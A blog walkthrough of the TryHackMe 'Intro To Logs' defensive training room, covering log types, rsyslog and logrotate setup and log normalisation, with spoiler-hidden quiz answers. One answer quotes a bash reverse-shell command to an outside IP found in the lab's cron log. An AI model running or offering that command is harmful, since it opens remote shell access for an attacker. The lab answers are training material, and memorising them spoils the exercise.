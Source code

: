 ```yaml
---
layout: post
title:  "TryHackMe: Intro To Logs Walkthrough"
date:   2023-11-11 00:00:00 +0900
categories: cybersec THM SOC2 Logs
---
```


#### Learn the fundamentals of logging, data sources, collection methods and principles to step into the log analysis world

#### TryHackMe SOC 2 Learning Pathway

##### Introduction

This is a guide to [tryhackme: Intro To Logs](https://tryhackme.com/room/introtologs). The room starts with some nice graphics and a brief outline of learning outcomes. It looks like there is a lot to do, so let's get stuck in!

##### Expanding Perspectives: Logs as Evidence of Historical Activity

I'm not going to give the same information as the room does as I think the copyright rightly belongs to THM.

Start the machine here and it should open in the split-screen view. If it doesn't find the blue button at the top right of the page and click to open in split screen view. I'm doing this on a 13" notebook so split screen is a bit too tiny. When I want to interact with the machine in browser or RDP I tend to maximise the browser window and separate it and then stick it on the next desktop and use ctrl+Windows+arrow(R/L) to switch between remote machine and local.

For this machine you actually don't really need a desktop so I just ssh in from my WSL linux install through the VPN. I will document my usual setup here soon. 

However you choose to connect the login credentials for damianhall are on this page.

*Q1:  What is the name of your colleague who left a note on the Desktop?*

```bash
cat Desktop/note.txt (or open in the GUI) 
```

<details>

  <summary>Spoiler warning: Answer</summary>
  
  Perry

</details>

---

*Q2: What is  full path to the suggested log file for initial investigation?*

> look in cat output of the note!

<details>

  <summary>Spoiler warning: Answer</summary>
  
  /var/log/gitlab/nginx/access.log

</details>

---

#### Types, Formats, and Standards

There's a lot of good information here about log types and how they are structured. It's not easy to memorize this stuff without some practical applications. But I try to consider why each data point is necessary within each log and the structure becomes more intuitive. I haven't memorized it, but I'm confident that when I come across these types of logs in the wild then I will have a good chance at understanding them.

*Q1: Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?*

> Task 2 was discussing an Nginx server which is a web server...

<details>

  <summary>Spoiler warning: Answer</summary>

    Web Server Log 

</details>

---

*Q2: Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?*

> The materials clearly list what format the Nginx web server uses by default.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    combined

</details>

---

#### Collection, Management, and Centralisation

A lot of information here and an important note about time synchronisation to ensure the timeline of the logs. This is not possible on the room's VM because it doesn't have an internet connection (and you don't have root access either unless you've found a way in).

Go through the exercises and configure rsyslog.

*Q1 After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?*

> after you have done the exercises you should be able to view the log file - so run: cat /var/log/websrv-02/rsyslog_sshd.log Disconnected from invalid user ...

<details>

  <summary>Spoiler warning: Answer</summary>
    
  stansimon

</details>

---

*Q2 What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?*

```bash
 cat /etc/rsyslog.d/99-websrv-02-cron.conf
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
  10.10.10.101

</details>

---

*Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?*

```bash
cat /var/log/websrv-02/rsyslog_cron.log | grep -E 'root|CMD'
```

<details>

  <summary>Spoiler warning: Answer</summary>
    
  /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"

</details>

---

#### Storage, Retention and Deletion

Read the info - main points are to have a storage, retention deletion and backup policy in place and to stick to it for many reasons including regulatory and legal but also to allow automation and reduce human error.

Follow the practical activity to automate log rotation.

*Q1: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?*

```bash
cat /etc/logrotate.d/99-websrv-02_cron.conf
```
>if you followed the practical activity it should be pretty clear.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    24

</details>

---

*Q2: Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?*

> See the output for the last question.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    hourly

</details>

---

#### Hands-on Exercise: Log analysis process, tools, and techniques

Time to get our hands dirty. There's still quite a bit of new information on data sources, parsing, normalising and sorting log data along with classification, enrichment, correlation, visualisation and finally reporting.

The room then goes on to discuss log analysis techniques.  

The introduction to the practical exercise mentions some methods to parse logs from the command line. While I'm quite comfortable with cat, grep, sort and uniq. I haven't often used awk or sed and these look like super powerful tools that I have noted for further study.

To view the logs they introduce an open source log viewer that is available for download from github. This is already installed on the room's VM so you won't need to download it.

Follow the long, cumbersome url given in the grey box (not the link to the github page) to look at the raw logs in a browser either in the GUI through the browser, from an AttackBox instance, or your own machine connected through the VPN. I have WSL Linux connected to the vpn and have a Google Chrome instance running from the WSL to connect.

Each step is given to process each log file using the command line. First the nginx, then rsyslog_cron, then rsyslog_sshd and finally gitlab-rails/api_json. Logs are normalised using awk and sed - that is the time and date formats are made to match each other and columns are rearranged to allow consolidation. Finally the commands output to a consolidated log file.

The normalisation commands are a bit long and, in my opinion, messy. These should probably be written into a script and automated, but they get the job done just running them from the command line.

Then sort and uniq are used to, well...sort and remove duplicates from the log entries.

Again follow the url (not the link) in your browser (connected to the THM network) to view the consolidated log files. Open in a new tab because you'll want to access the unparsed data too.

*Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?*

> OK, this is the unparsed log file that we opened initially NOT the normalised and consolidated one. Hopefully you have it open. Follow the hint and click the dropdown next to the add filter.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    No date field

</details>

---

*What is the process of standardising parsed data into a more easily readable and query-able format?*

> This is what we did to the log file with all those awk sed and sort and uniq commands...

<details>

  <summary>Spoiler warning: Answer</summary>
    
    normalisation

</details>

---

*What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?*

> This one isn't initially obvious unless you've really understood the reading at the start of this chapter. When we consolidate multiple logs we are really adding value to our log files. When we add extra context to a log in the form of say, an IP address we are performing xxxxxxxxxx on the log. Forgive my grammar the gerund form would be more natural here but the answer is the noun.

<details>

  <summary>Spoiler warning: Answer</summary>
    
    enrichment

</details>

---

#### Conclusion

I learned *a lot* from this room. And it has already started me off exploring the powerful awk and sed programs.


